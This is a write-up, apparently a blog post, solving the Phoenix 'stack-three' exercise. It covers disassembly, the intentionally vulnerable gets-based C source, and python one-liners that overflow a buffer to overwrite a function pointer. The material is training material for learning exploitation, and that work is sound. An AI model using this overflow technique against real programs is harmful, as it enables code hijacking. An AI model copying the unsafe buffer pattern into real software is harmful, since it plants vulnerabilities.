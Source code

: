 ```yaml
---
title: "phoenix - stack 3"
classes: wide
tag: 
  - "buffer overflow"
header:
  teaser: /assets/images/binary-exploitation/binexp.png
ribbon: red
description: "Solution for stack three from Phoenix in Exploit Education Series"
categories:
  - Binary Exploitation
---
```


Lets list the files using ```ls -la``` command,

```c
user@phoenix-amd64:~$ ls -la
total 28
drwxr-xr-x 2 user user 4096 Jun  6 04:48 .
drwxr-xr-x 3 root root 4096 Jan 13  2019 ..
-rw-r--r-- 1 user user  220 Jan 13  2019 .bash_logout
-rw-r--r-- 1 user user 3526 Jan 13  2019 .bashrc
-rw-r--r-- 1 user user  675 Jan 13  2019 .profile
-rwxr-xr-x 1 user user 6472 Jun  6 04:48 stack-three
```

Lets check the file type of the binary using ```file``` command,

```c
user@phoenix-amd64:~$ file stack-three
stack-three: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /opt/phoenix/x86_64-linux-musl/lib/ld-musl-x86_64.so.1, not stripped
```

It is a ```not stripped``` binary,

Let try running it

```c
user@phoenix-amd64:~$ ./stack-three
Welcome to phoenix/stack-three, brought to you by https://exploit.education
monish
function pointer remains unmodified :~( better luck next time!
```

It seems like we have to modify the function pointer in it

Lets analyse it in debugger,

Viewing the functions in it,

```c
pwndbg> info functions
All defined functions:

Non-debugging symbols:
0x00000000004004b0  _init
0x00000000004004d0  printf@plt
0x00000000004004e0  gets@plt
0x00000000004004f0  puts@plt
0x0000000000400500  fflush@plt
0x0000000000400510  exit@plt
0x0000000000400520  __libc_start_main@plt
0x0000000000400530  _start
0x0000000000400546  _start_c
0x0000000000400570  deregister_tm_clones
0x00000000004005a0  register_tm_clones
0x00000000004005e0  __do_global_dtors_aux
0x0000000000400670  frame_dummy
0x000000000040069d  complete_level
0x00000000004006b5  main
0x0000000000400740  __do_global_ctors_aux
0x0000000000400782  _fini
```

There is an extra function named ```complete_level```,

```c
0x000000000040069d  complete_level
```

Now, disassembling ```main()```,

```c
pwndbg> disassemble main
Dump of assembler code for function main:
   0x00000000004006b5 <+0>:	  push   rbp
   0x00000000004006b6 <+1>:	  mov    rbp,rsp
   0x00000000004006b9 <+4>:	  sub    rsp,0x60
   0x00000000004006bd <+8>:	  mov    DWORD PTR [rbp-0x54],edi
   0x00000000004006c0 <+11>:	mov    QWORD PTR [rbp-0x60],rsi
   0x00000000004006c4 <+15>:	mov    edi,0x4007d8
   0x00000000004006c9 <+20>:	call   0x4004f0 <puts@plt>
   0x00000000004006ce <+25>:	mov    QWORD PTR [rbp-0x10],0x0
   0x00000000004006d6 <+33>:	lea    rax,[rbp-0x50]
   0x00000000004006da <+37>:	mov    rdi,rax
   0x00000000004006dd <+40>:	call   0x4004e0 <gets@plt>
   0x00000000004006e2 <+45>:	mov    rax,QWORD PTR [rbp-0x10]
   0x00000000004006e6 <+49>:	test   rax,rax
   0x00000000004006e9 <+52>:	je     0x40071d <main+104>
   0x00000000004006eb <+54>:	mov    rax,QWORD PTR [rbp-0x10]
   0x00000000004006ef <+58>:	mov    rsi,rax
   0x00000000004006f2 <+61>:	mov    edi,0x400828
   0x00000000004006f7 <+66>:	mov    eax,0x0
   0x00000000004006fc <+71>:	call   0x4004d0 <printf@plt>
   0x0000000000400701 <+76>:	mov    rax,QWORD PTR [rip+0x200418]        # 0x600b20 <stdout>
   0x0000000000400708 <+83>:	mov    rdi,rax
   0x000000000040070b <+86>:	call   0x400500 <fflush@plt>
   0x0000000000400710 <+91>:	mov    rdx,QWORD PTR [rbp-0x10]
   0x0000000000400714 <+95>:	mov    eax,0x0
   0x0000000000400719 <+100>:	call   rdx
   0x000000000040071b <+102>:	jmp    0x400727 <main+114>
   0x000000000040071d <+104>:	mov    edi,0x400848
   0x0000000000400722 <+109>:	call   0x4004f0 <puts@plt>
   0x0000000000400727 <+114>:	mov    edi,0x0
   0x000000000040072c <+119>:	call   0x400510 <exit@plt>
End of assembler dump.
```

Disassembling ```complete_level()```,

```c
pwndbg> disassemble complete_level
Dump of assembler code for function complete_level:
   0x000000000040069d <+0>:	  push   rbp
   0x000000000040069e <+1>:	  mov    rbp,rsp
   0x00000000004006a1 <+4>:	  mov    edi,0x400790
   0x00000000004006a6 <+9>:	  call   0x4004f0 <puts@plt>
   0x00000000004006ab <+14>:	mov    edi,0x0
   0x00000000004006b0 <+19>:	call   0x400510 <exit@plt>
End of assembler dump.
```

Lets view the source code for better understanding,

```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void complete_level() {
  printf("Congratulations, you've finished " LEVELNAME " :-) Well done!\n");
  exit(0);
}

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int (*fp)();
  } locals;

  printf("%s\n", BANNER);

  locals.fp = NULL;
  gets(locals.buffer);

  if (locals.fp) {
    printf("calling function pointer @ %p\n", locals.fp);
    fflush(stdout);
    locals.fp();
  } else {
    printf("function pointer remains unmodified :~( better luck next time!\n");
  }

  exit(0);
}
```

Here we are using the pointer ```volatile int (*fp)();``` to call the ```complete_level()```

```c
if (locals.fp) {
    printf("calling function pointer @ %p\n", locals.fp);
    fflush(stdout);
    locals.fp();
  } else {
    printf("function pointer remains unmodified :~( better luck next time!\n");
  }
```

If we write any value in ```locals.fp```, our program assumes it as a function address and it tries to call it

If it is a valid function address it displays the correct result, else it displays a ```segmentation fault```

When we try to overwrite ```fp``` with random data,it gives ```segmentation fault``` because the function in ```fp``` address does not exist

```c
user@phoenix-amd64:~$ python -c "print('A'*64+'BBBB')"|./stack-three
Welcome to phoenix/stack-three, brought to you by https://exploit.education
calling function pointer @ 0x42424242
Segmentation fault
```

If we pass the address of ```complete_level()``` in ```fp``` it executes correctly,

```c
user@phoenix-amd64:~$ python -c "print('A'*64+'\x9d\x06\x40')"|./stack-three
Welcome to phoenix/stack-three, brought to you by https://exploit.education
calling function pointer @ 0x40069d
Congratulations, you've finished phoenix/stack-three :-) Well done!
```

Done! we have completed "stack-three"




